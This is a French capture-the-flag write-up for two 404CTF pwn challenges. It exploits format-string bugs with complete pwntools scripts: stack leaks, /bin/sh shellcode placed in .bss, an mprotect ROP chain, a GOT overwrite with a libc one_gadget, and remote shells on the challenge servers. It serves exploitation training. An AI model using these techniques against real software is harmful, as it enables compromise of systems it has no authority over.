

## Introduction

Ce challenge de PWN se divisait en deux parties, les deux nous demandaient d'exploiter des `format strings`, mais à cause d'une imprécision dans l'énoncé de la première partie j'ai fait pop un shell sans que cela soit nécessaire 🤡. Pour cette partie je vais donc détailler les deux manières que j'ai utilisé pour exploiter le binaire! L'énoncé se présentait comme ceci:

```txt
Un coin lecture rempli de nombreux livres est à la disposition des clients. En parcourant les étagères, vous tombez sur un livre qui semble être un recueil de citations.
En l'ouvrant, vous découvrez qu'il est manuscrit et rassemble des citations de toutes sortes.
En lisant la préface, vous réalisez qu'il est possible d'ajouter vos propres citations au livre.
Que décidez-vous de faire ?
```

### Première partie

#### Unintended Way

Comme d'habitude, on lance un `file` pour en savoir plus sur le binaire et un `checksec` pour voir quelles protection le binaire utilise:

```txt
citation: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, BuildID[sha1]=8dc288d4fcf863f23a2d6094765775bb3c4330d3, for GNU/Linux 4.4.0, not stripped
...
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   2193 Symbols      No    0               0               /home/kali/Desktop/404_Heap/citation
```

Ok, on a un binaire non strippé sans `PIE` avec l'`ASLR` et la `NX` activé et les `relocations` ne sont pas en Read-Only.

Le fait que le binaire soit statiquement linké va nous rendre l'exploitation plus difficile dans le sens où aucune librairie ne sera présente dans le processus et que la fonction `system` n'est pas linké dans le programme mais d'un autre côté cela devrait nous proposer beaucoup plus de gadgets à trouver 😈.

Commeçons par analyser le programme! Ce dernier va nous demander de choisir parmis trois options:

```txt
Vous vous retrouvez face au livre.

1: Lire une citation
2: Ecrire sur le livre
3: Compter le nombre de citations
4: Fermer le livre
```

Si on regarde dans le code décompilé de ce à quoi elles correspondent voilà ce qu'on peut en tirer:

* **pick_quote** Cette fonction va ouvrir un fichier `citations.txt` (présent sur le serveur), lister le nombre de citations N puis choisir un nombre aléatoire modulo N - 1 (oui pas N, mais N - 1 ca aura son importance dans la Intended Way) et afficher cette citation.
* **write_quote** Cette fonction va lire une entrée utilisateur depuis `stdin`, la réafficher sans rien faire d'autre:

```txt
Que souhaitez-vous écrire ?
[Vous] : ABCD

Au moment où vous vous apprêtiez à écrire : ABCD
Vous remarquez des traces d'une citation qui semble avoir été effacée.
Vous vous ravisez temporairement d'écrire sur le livre en attendant d'en savoir davantage.
```

* **count_quotes** va simplement afficher du texte afficher du texte, impossible d'avoir réellement le bon nombre de citations.
* **exit** va faire quitter le programme.

La vulnérabilité se trouvant dans la fonction `write_quote`, l'entrée de l'utilisateur est directement réfléchie par `printf` sans l'usage d'une chaine de format, on est bien en face d'une format string! On peut d'ailleurs leak le contenu de la stack comme ceci:

```txt
[Vous] : %p%p%p%p

Au moment où vous vous apprêtiez à écrire : 0x7ffcd08140f0(nil)(nil)0x20995d9
Vous remarquez des traces d'une citation qui semble avoir été effacée.
Vous vous ravisez temporairement d'écrire sur le livre en attendant d'en savoir davantage.
```

Maintenant il faut trouver une manière d'exploiter cette vulnérabilité: On sait que le PIE n'est pas activé et que même si le binaire est linké statiquement avec la NX activé, la fonction `mprotect` est linké dans le binaire. On peut donc grâce à la primitive de `Write What Where` permise par la format string, écrire une `ROPchain` sur la stack qui fera ceci:

* Copier un shellcode au début de la .bss
* Mprotect la première page de la .bss en RWX
* Sauter sur le shellcode

Mais pour ca il va nous falloir un leak de la stack pour pouvoir bien positionner le début de notre ropchain sur la valeur sauvegardée de `RIP.`

##### Leak de la stack

Après avoir leak quelques adresses, on se rend compte que la première disposée sur la stack après l'appel à printf vaut est telle que: `<saved RIP> - 1448`. On obtient donc assez facilement notre leak

```python
# Leaking return address

rip_offset = 1448

def write_fmt(data):
    io.sendline(b"2")
    io.sendline(data)
...
pwn.log.info("Leaking stack address")

write_fmt(b"%p")
io.recvuntil(b"crire : ")
debug = io.recvline()
leak = int(debug.decode("utf-8"), 16)

saved_rip = leak + rip_offset
pwn.log.info(f"Saved RIP @ {hex(saved_rip)}")
```

##### Ecriture du shellcode

Pour la suite de l'exploitation on va utiliser la fonction `fmtstr_payload` de pwntools qui permet de grandement faciliter l'exploitation des format strings. Nous avons juste à lui passer en paramètre l'offset telle que le début de payload se réfléchisse lui même sur la stack, et un dictionnaire de cette forme: `{'where':'what',}`. On peut déterminer facilement l'offset nécessaire comme ceci:

```txt
Que souhaitez-vous écrire ?
[Vous] : %p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p

Au moment où vous vous apprêtiez à écrire : 0x7ffddbdbe4d0(nil)(nil)0x1b835f5(nil)0x70257025702570250x70257025702570250x70257025702570250x70257025702570250xa70257025(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)
Vous remarquez des traces d'une citation qui semble avoir été effacée.
Vous vous ravisez temporairement d'écrire sur le livre en attendant d'en savoir davantage.
```
On voit que le début de notre chaine de `%p` se trouve à l'offset 6 sur la stack!
Vu que le PIE n'est pas activé, l'adresse de la .bss ne change jamais, on aura donc pas besoin de leak l'adresse du binaire pour écrire notre shellcode. Pour que mprotect fonctionne, il faut que l'adresse que l'on va lui passer soit aligné sur la taille d'une page (`4096`):

```python
align_ptr = lambda addr: (addr + 4095) & ~4095
shellcode = b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
buffer_fmt_offset = 6

def write_payload(area, shellcode):
    www = dict()
    for i in range(0, len(shellcode), 8):
        chunk = u64(shellcode[i:i+8].ljust(8, b"\x00"))
        www[area + i] = chunk
    write_fmt(pwn.fmtstr_payload(buffer_fmt_offset, www))
...

# Writing shellcode on a .bss section's page, the `12` is added to avoid the badchar `\n` being present in the format string payload
bss = 0x004bc100
payload_page = align_ptr(bss)
payload_area = payload_page + 12

pwn.log.info(f"Writing shellcode @ {hex(payload_area)}")
write_payload(payload_area, shellcode)
```

##### Changement des droits de la .bss

Maintenant il faut utiliser mprotect pour que l'endroit où on vient de copier notre shellcode soit exécutable, on va créer une ROPchain à l'adresse de la sauvegarde RIP que l'on a eu grâce au leak. On va commencer par trouver les gadgets dont on a besoin pour cette ROP:

```txt
ROPgadget --binary citation | grep "pop rdi\|pop rsi\|pop rdx"
...
0x000000000040225d : pop rdi ; ret
0x00000000004128f9 : pop rsi ; ret
0x000000000047ce8b : pop rdx ; pop rbx ; ret
...
```
Comme prévu, on a le choix, beaucoup de gadgets sont disponibles!

```python
pop_rdi = 0x000000000040225d
pop_rsi = 0x00000000004128f9
pop_rdx_rbx = 0x000000000047ce8b
mprotect = 0x000000000042e070
...
    # Mprotecting the .bss section's page and jumping on it

    rop = {saved_rip : pop_rdi,
    saved_rip +  8 : payload_page,
    saved_rip + 16 : pop_rsi,
    saved_rip + 24 : 0x1000,
    saved_rip + 32 : pop_rdx_rbx,
    saved_rip + 40 : 0x7,
    saved_rip + 56 : mprotect,
    saved_rip + 64 : payload_area,
    }

    pwn.log.success("Building Mprotect's ROP chain and shelling a shell")
    write_fmt(pwn.fmtstr_payload(buffer_fmt_offset, rop))
```

Et résultat:

```txt
[*] '/home/kali/Desktop/404_Heap/citation'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/lib64/ld-linux-x86-64.so.2'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process '/home/kali/Desktop/404_Heap/citation': pid 1242395
[*] Leaking stack address
[*] Saved RIP @ 0x7ffca5dde4a8
[*] Writing shellcode @ 0x4bd00c
[+] Building Mprotect's ROP chain and shelling a shell
[*] Switching to interactive mode
Vous remarquez des traces d'une citation qui semble avoir été effacée.
Vous vous ravisez temporairement d'écrire sur le livre en attendant d'en savoir davantage.
...
haa\xb0\xe4ݥ\xfcVous remarquez des traces d'une citation qui semble avoir été effacée.
Vous vous ravisez temporairement d'écrire sur le livre en attendant d'en savoir davantage.
$ id
uid=1000(kali) gid=1000(kali) groups=1000(kali),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),100(users),106(netdev),111(bluetooth),116(scanner),138(wireshark),141(kaboxer)
```
Nice! Maintenant plus qu'à tester en remote... Et là c'est le drame, pas moyen de faire pop, un shell après de longues heures à changer re-changer mon exploit j'ai contacté un admin qui m'a fait savoir que `/bin` n'était pas monté sur la machine et que par conséquent il fallait passer par un autre moyen pour obtenir le flag.

#### Intended Way

Maintenant on va passer à l'exploitation attendue par le challenge, celle ci résidait principalement dans la fonction `pick_quote`, si vous vous souvenez bien j'avais dit qu'une citation était prise aléatoirement dans un fichier modulo le nombre de citations -1. C'est celà qui m'a mis sur la piste: En choisissant un nombre de cette manière la dernière citation ne sera jamais choisie et il doit s'agir du flag.

Intéressons nous plus en détail au code de cette fonction:

<div>
    
</div>

Déjà, les variables `num_quotes` et `chosen_index` qui contiennent respectivement le nombre de citations et l'index choisi aléatoireemnt sont toutes deux situées dans la .bss, on connait donc à l'avance leurs adresses. Mais ce qui est encore plus intéressant c'est la comparaison qui est faite sur la variable num_quotes:

Lors du premier appel à pick_quote, si la variable num_quotes est nulle, alors elle est initializée avec le nombre de citations. Et dans les prochains appesl si elle est supérieure à 0 la variable chosen_index est modifiée par une valeur aléatoire. Mais qu'est ce qui se passe si avec notre format string on met la valeur de num_quotes à -1 😛?

Dans ce cas aucune des conditions n'est vérifiés et la valeur de chosen index ne devrait jamais changer, créons un nouveau fichier d'exploit avec ctfmate et testons celà tout de suite:

```python
def read_citation():
    io.recvuntil(b">>> ")
    io.sendline(b"1")
    return io.recvuntil(b"1: Lire une citation")
...
def exp():
    
    # Vu que les variables de 32 bits `chosen_index` et `num_quotes` sont contigues dans la mémoire, on écrit les deux avec un seul appel
    # à `fmtstr_payload` qui permet d'écrire 64 bits d'un coup

    chosen_index = 0x004be130
    num_quote_val = 0xffffffff
    chosen_index_val = 3

    val = num_quote_val << 32 | chosen_index_val

    write_fmt(pwn.fmtstr_payload(fmtstr_buffer_offset, {chosen_index : val}))

    io.interactive()
```

Et on arrive bien à faire en sorte d'accéder à la citation précise en bypassant le choix aléatoire, par exemple là on peut voir la citation d'index 3:

```txt
python3 wu.py HOST=challenges.404ctf.fr PORT=31719
...
[+] Opening connection to challenges.404ctf.fr on port 31719: Done
[*] Switching to interactive mode
Que souhaitez-vous écrire ?
[Vous] : 
Au moment où vous vous apprêtiez à écrire :   @                                                                                                                                                                                                                                                           \x00aaabaa0\xe1KVous remarquez des traces d'une citation qui semble avoir été effacée.
Vous vous ravisez temporairement d'écrire sur le livre en attendant d'en savoir davantage.

1: Lire une citation
2: Ecrire sur le livre
3: Compter le nombre de citations
4: Fermer le livre
>>> $ 1
La vie est un mystère qu'il faut vivre, et non un problème à résoudre.
    -- Gandhi

1: Lire une citation
2: Ecrire sur le livre
3: Compter le nombre de citations
4: Fermer le livre
>>> $ 1
La vie est un mystère qu'il faut vivre, et non un problème à résoudre.
    -- Gandhi

1: Lire une citation
2: Ecrire sur le livre
3: Compter le nombre de citations
4: Fermer le livre
>>> $ 1
La vie est un mystère qu'il faut vivre, et non un problème à résoudre.
    -- Gandhi
```
Super! Maintenant il ne nous reste plus qu'à trouver la dernière citation pour avoir le flag, pour celà j'y suis allé un peu à tatons vu qu'il n'y avait pas de moyen apparent de trouver le nombre exact de citations dans le fichier. J'ai itérer avec une valeur de `chosen_index` décroissante jusqu'à tomber sur la valeur équivalent à la dernière citation:

```python

chosen_index = 0x004be130
num_quote_val = 0xffffffff

i = 80400
while True:
    chosen_index_val = i
    val = num_quote_val << 32 | chosen_index_val


    write_fmt(pwn.fmtstr_payload(fmtstr_buffer_offset, {chosen_index : val}))
    citation = read_citation().decode("utf-8")
    if "404" in citation:
        pwn.log.success(citation)
        break
    pwn.log.info(f"{i} : {citation}")
    i -= 1
io.interactive()
```

```
python3 stage_1.py HOST=CHALLENGES.404CTF.FR PORT=31719
[*] '/home/kali/Desktop/404_Heap/citation'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/lib64/ld-linux-x86-64.so.2'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to CHALLENGES.404CTF.FR on port 31719: Done
[*] 80400 : 
    1: Lire une citation
[*] 80399 : 
    1: Lire une citation
...
[*] 80326 : 
    1: Lire une citation
[*] 80325 : 
    1: Lire une citation
[+] 404CTF{3H_813N!0U1_C357_M0N_V1C3.D3P141r3_357_M0N_P14151r.J41M3_QU0N_M3_H41553}
        -- Edmond Rostand
    1: Lire une citation
[*] Switching to interactive mode

2: Ecrire sur le livre
3: Compter le nombre de citations
4: Fermer le livre
>>> [*] Got EOF while reading in interactive
```

### Seconde partie

Dans cette seconde partie, l'objectif était bien de pop un shell, un autre binaire nous est fourni ainsi que la libc utilisé par sur la machine distante, voilà l'énoncé:

```txt
Grâce à votre persévérance, vous avez réussi à retrouver la citation qui avait été effacée: « Eh bien ! oui, c’est mon vice. Déplaire est mon plaisir. J’aime qu’on me haïsse. » Cyrano semble vous avoir joué un mauvais tour. Après avoir exploré le café, vous apercevez un homme accoudé à une table. Son nez imposant vous étonne, et c'est alors que vous réalisez que cet homme n'est autre que Cyrano lui-même.

En apprenant que vous aviez retrouvé la citation, vous voyez son visage s'illuminer. Il vous dit alors: « Je cherchais celui qui saurait lire entre les lignes, car j'ai besoin d'un remplaçant, ne serait-ce que pour un temps, comprenez-vous. » Cyrano vous explique alors que votre mission consisterait à aider Christian dans sa déclaration d'amour à Roxane, en lui soufflant les mots depuis le bas du balcon. Tout en vous confiant cette tâche, Cyrano vous avoue qu'il ne pourrait supporter cette scène, portant lui-même Roxane dans son coeur.

Que faites-vous ?
```

On lance ctfmate pour associer la libc fournie au binaire:

```bash
ctfmate -b une_citation_pas_comme_les_autres_2_2
```

Voilà les protections utilisées par le binaire:

```txt
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   Canary found      NX enabled    PIE enabled     No RPATH   RW-RUNPATH   76 Symbols        No    0               2               /home/kali/Desktop/404_Heap/second_stage/une_citation_pas_comme_les_autres_2_2
```

Cette fois-ci le PIE est activé, il nous faudra probablement obtenir un leak de l'adresse où est mappé le binaire. Jetons maintenant un oeil au programme et plus précisément à la fonction `help_christian` (les autres fonctions sont juste là pour l'histoire):

<div>
    
</div>

On doit fournir en input une suite de phrase attendues par le programme, puis on peut avoir accès à deux appels à printf vulnérables à des format strings, idéalement une pour leak des adresses et l'autre pour exploiter! On va déjà envoyer ce que le programme attend en input pour avoir accès aux format strings:

```python
def exp():

    io = start()

    # Helping christian

    io.send(b"1\n1\n")
    
    # Filling required speech

    io.sendline(b"M'accuser, - justes dieux ! - De n'aimer plus... quand... j'aime plus !")
    io.sendline(b"L'amour grandit berce dans mon ame inquiete... Que ce... cruel marmot prit pour... barcelonnette !")
    io.sendline(b"Aussi l'ai-je tente, mais... tentative nulle. Ce... nouveau-ne, Madame, est un petit... Hercule.")
    io.sendline(b"De sorte qu'il... strangula comme rien... Les deux serpents... Orgueil et... Doute.")
```
Après le plan va être d'exploiter le fait qu'il n'y ait pas de `Full RELRO` pour overwrite une adresse dans la `GOT` qui redirigera vers un one gadget de la libc:

```bash
one_gadget ./libc.so.6   
0x4f2a5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f302 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a2fc execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

### Leak de la libc et du binaire

Bon pour cette partie, vu que le leak s'obtenait par une format string, il y'a rien de très technique, j'ai juste cherché les adresses qui m'intéressait et les ait soustraits aux adresses de bases du binaire et de la libc respectivement:

```python
# Leaking binary / libc / stack address

io.recvuntil(b"sente donc la situation ?\n[Vous] : ")
io.sendline(b"%p" * 48)

leak = io.recvline().decode("utf-8")

leak_libc = int(leak[-57:-43], 16) - 4118720
leak_binary = int(leak[-29:-15], 16) - 7884
help_christian = 0x00000970

pwn.log.info(f"Binary mapped @ {hex(leak_binary)}")
pwn.log.info(f"Libc mapped @ {hex(leak_libc)}")
```

Ensuite on applique la même technique que dans la première partie pour obtenir l'offset du buffer de notre format string, ici il vaut 32.

### Obtention du shell

Le principal problème que j'ai rencontré pour cette partie était que mon one_gadget qui était à l'adresse `0x10a2fc` dans la libc demandait une contrainte telle que `[rsp + 0x70] == NULL`, condition qui, après l'appel à pick_quote n'était pas vérifiée.

Pour palier à ce problème, au lieu de réécrire l'adresse de `exit` dans la got avec celle de notre gadget, on va rediriger l'appel à exit vers la fonction help_christian pour créer une nouvelle stackframe. Et vu que help_christian appelle printf, on réécrit l'adresse de printf dans la got avec notre gadget.

```python
# Shelling a shell

exe.address = leak_binary
exit_got = exe.symbols['got.exit']
printf_got = exe.symbols['got.printf']

one_gadget = 0x10a2fc
pwn.log.info(f"One gadget @ {hex(leak_libc + one_gadget)}")

payload = pwn.fmtstr_payload(buffer_offset, {printf_got : leak_libc + one_gadget, exit_got : leak_binary + help_christian})
io.sendline(payload)

io.interactive()
```

De cette manière on peut appeller notre one_gadget avec une nouvelle stackframe telle que `[rsp + 0x70] == NULL`.
Et il ne reste plus qu'à lancer le programme final:

```txt
python3 exploit.py HOST=challenges.404ctf.fr PORT=30242

[*] '/home/kali/Desktop/404_Heap/second_stage/une_citation_pas_comme_les_autres_2_2'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  b'/home/kali/Desktop/404_Heap/second_stage'
[*] '/home/kali/Desktop/404_Heap/second_stage/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/home/kali/Desktop/404_Heap/second_stage/ld-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to challenges.404ctf.fr on port 30242: Done
[*] Binary mapped @ 0x55e02e400000
[*] Libc mapped @ 0x7fe803a08000
[*] One gadget @ 0x7fe803b122fc
[*] Switching to interactive mode
...
(Cyrano prends votre place et celle de Christian et poursuit la conversation avec Roxane.)

(Vous ramassez des cailloux que vous jettez dans les vitres.)

[Roxane] : Qui donc m’appelle ?
[Christian] : Moi.
[Roxane] : Qui, moi ?
[Christian] : Christian.
[Roxane] : C'est vous ?
[Christian] : Je voudrais vous parler.
[Roxane] : Non ! Vous parlez trop mal. Allez-vous-en !
[Christian] : De grâce !...
[Roxane] : Non ! Vous ne m’aimez plus !

$ ls
flag.txt
une_citation_pas_comme_les_autres_2_2
$ cat flag.txt
404CTF{CYr4N0_713N7_14_CH4ND3113_M415_V0U5_3735_D3V3NU_UN_607}$
```

## Scripts de solve complets

* Première partie unintended

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

# this exploit was generated via
# 1) pwntools
# 2) ctfmate

import os
import time
import pwn

BINARY = "citation"
LIBC = "/lib/x86_64-linux-gnu/libc.so.6"
LD = "/lib64/ld-linux-x86-64.so.2"

# Set up pwntools for the correct architecture
exe = pwn.context.binary = pwn.ELF(BINARY)
libc = pwn.ELF(LIBC)
ld = pwn.ELF(LD)
#pwn.context.terminal = ["tmux", "splitw", "-h"]
pwn.context.delete_corefiles = True
pwn.context.rename_corefiles = False
p64 = pwn.p64
u64 = pwn.u64
p32 = pwn.p32
u32 = pwn.u32
p16 = pwn.p16
u16 = pwn.u16
p8  = pwn.p8
u8  = pwn.u8

host = pwn.args.HOST or '127.0.0.1'
port = int(pwn.args.PORT or 1337)

align_ptr = lambda addr: (addr + 4095) & ~4095

rip_offset = 1448
buffer_fmt_offset = 6
pop_rdi = 0x000000000040225d
pop_rsi = 0x00000000004128f9
pop_rdx_rbx = 0x000000000047ce8b
bss = 0x004bc100
mprotect = 0x000000000042e070 

shellcode = b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"

gdbscript = '''
b write_quote
continue
'''.format(**locals())

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if pwn.args.GDB:
        return pwn.gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return pwn.process([exe.path] + argv, *a, **kw)


def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = pwn.connect(host, port)
    if pwn.args.GDB:
        pwn.gdb.attach(io, gdbscript=gdbscript)
    return io


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if pwn.args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

def write_fmt(data):
    io.sendline(b"2")
    io.sendline(data)

def write_payload(area, shellcode):
    www = dict()
    for i in range(0, len(shellcode), 8):
        chunk = u64(shellcode[i:i+8].ljust(8, b"\x00"))
        www[area + i] = chunk
    write_fmt(pwn.fmtstr_payload(buffer_fmt_offset, www))

def exp():
    
    # Leaking return address

    pwn.log.info("Leaking stack address")
    
    write_fmt(b"%p")
    io.recvuntil(b"crire : ")
    debug = io.recvline()
    leak = int(debug.decode("utf-8"), 16)

    saved_rip = leak + rip_offset
    pwn.log.info(f"Saved RIP @ {hex(saved_rip)}")

    # Writing shellcode on a .bss section's page, the `120` is added to avoid the badchar `\n` being present in the format string payload

    payload_page = align_ptr(bss)
    payload_area = payload_page + 12

    pwn.log.info(f"Writing shellcode @ {hex(payload_area)}")
    write_payload(payload_area, shellcode)

    # Mprotecting the .bss section's page and jumping on it

    www = {saved_rip : pop_rdi,
    saved_rip +  8 : payload_page,
    saved_rip + 16 : pop_rsi,
    saved_rip + 24 : 0x1000,
    saved_rip + 32 : pop_rdx_rbx,
    saved_rip + 40 : 0x7,
    saved_rip + 56 : mprotect,
    saved_rip + 64 : payload_area,
    }

    pwn.log.success("Building Mprotect's ROP chain and shelling a shell")
    write_fmt(pwn.fmtstr_payload(buffer_fmt_offset, www, write_size='byte'))
    
    io.interactive()

if __name__ == "__main__":
    io = start()
    exp()
```

* Première partie intended

```python
# -*- coding: utf-8 -*-

# this exploit was generated via
# 1) pwntools
# 2) ctfmate

import os
import time
import pwn

BINARY = "citation"
LIBC = "/lib/x86_64-linux-gnu/libc.so.6"
LD = "/lib64/ld-linux-x86-64.so.2"

# Set up pwntools for the correct architecture
exe = pwn.context.binary = pwn.ELF(BINARY)
libc = pwn.ELF(LIBC)
ld = pwn.ELF(LD)
#pwn.context.terminal = ["tmux", "splitw", "-h"]
pwn.context.delete_corefiles = True
pwn.context.rename_corefiles = False
p64 = pwn.p64
u64 = pwn.u64
p32 = pwn.p32
u32 = pwn.u32
p16 = pwn.p16
u16 = pwn.u16
p8  = pwn.p8
u8  = pwn.u8

host = pwn.args.HOST or '127.0.0.1'
port = int(pwn.args.PORT or 1337)


gdbscript = '''
b write_quote
continue
'''.format(**locals())

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if pwn.args.GDB:
        return pwn.gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return pwn.process([exe.path] + argv, *a, **kw)


def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = pwn.connect(host, port)
    if pwn.args.GDB:
        pwn.gdb.attach(io, gdbscript=gdbscript)
    return io


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if pwn.args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

def write_fmt(data):
    io.sendline(b"2")
    io.sendline(data)
    io.recvuntil(b">>> ")

def read_citation():
    io.recvuntil(b">>> ")
    io.sendline(b"1")
    return io.recvuntil(b"1: Lire une citation")


def exp():

    chosen_index = 0x004be130
    fmtstr_buffer_offset = 6

    num_quote_val = 0xffffffff

    i = 80400
    while True:
        chosen_index_val = i
        val = num_quote_val << 32 | chosen_index_val


        write_fmt(pwn.fmtstr_payload(fmtstr_buffer_offset, {chosen_index : val}))
        citation = read_citation().decode("utf-8")
        if "404" in citation:
            pwn.log.success(citation)
            break
        pwn.log.info(f"{i} : {citation}")
        i -= 1
    io.interactive()

if __name__ == "__main__":
    io = start()
    exp()
```

* Seconde partie

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

# this exploit was generated via
# 1) pwntools
# 2) ctfmate

import os
import time
import pwn

BINARY = "une_citation_pas_comme_les_autres_2_2"
LIBC = "/home/kali/Desktop/404_Heap/second_stage/libc.so.6"
LD = "/home/kali/Desktop/404_Heap/second_stage/ld-2.27.so"

# Set up pwntools for the correct architecture
exe = pwn.context.binary = pwn.ELF(BINARY)
libc = pwn.ELF(LIBC)
ld = pwn.ELF(LD)
#pwn.context.terminal = ["tmux", "splitw", "-h"]
pwn.context.delete_corefiles = True
pwn.context.rename_corefiles = False
p64 = pwn.p64
u64 = pwn.u64
p32 = pwn.p32
u32 = pwn.u32
p16 = pwn.p16
u16 = pwn.u16
p8  = pwn.p8
u8  = pwn.u8

host = pwn.args.HOST or '127.0.0.1'
port = int(pwn.args.PORT or 1337)


def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if pwn.args.GDB:
        return pwn.gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return pwn.process([exe.path] + argv, *a, **kw)


def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = pwn.connect(host, port)
    if pwn.args.GDB:
        pwn.gdb.attach(io, gdbscript=gdbscript)
    return io


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if pwn.args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)


gdbscript = '''
b help_christian
continue
'''.format(**locals())

def exp():

    io = start()

    # Helping christian

    io.send(b"1\n1\n")
    
    # Filling required speech

    io.sendline(b"M'accuser, - justes dieux ! - De n'aimer plus... quand... j'aime plus !")
    io.sendline(b"L'amour grandit berce dans mon ame inquiete... Que ce... cruel marmot prit pour... barcelonnette !")
    io.sendline(b"Aussi l'ai-je tente, mais... tentative nulle. Ce... nouveau-ne, Madame, est un petit... Hercule.")
    io.sendline(b"De sorte qu'il... strangula comme rien... Les deux serpents... Orgueil et... Doute.")
    
    # Leaking binary / libc / stack address

    io.recvuntil(b"sente donc la situation ?\n[Vous] : ")
    io.sendline(b"%p" * 48)

    leak = io.recvline().decode("utf-8")
    
    leak_libc = int(leak[-57:-43], 16) - 4118720
    leak_binary = int(leak[-29:-15], 16) - 7884
    help_christian = 0x00000970
    
    pwn.log.info(f"Binary mapped @ {hex(leak_binary)}")
    pwn.log.info(f"Libc mapped @ {hex(leak_libc)}")
    
    # Shelling a shell

    exe.address = leak_binary
    exit_got = exe.symbols['got.exit']
    printf_got = exe.symbols['got.printf']

    buffer_offset = 32
    one_gadget = 0x10a2fc
    pwn.log.info(f"One gadget @ {hex(leak_libc + one_gadget)}")
    
    payload = pwn.fmtstr_payload(buffer_offset, {printf_got : leak_libc + one_gadget, exit_got : leak_binary + help_christian})
    io.sendline(payload)

    io.interactive()

if __name__ == "__main__":
    exp()
```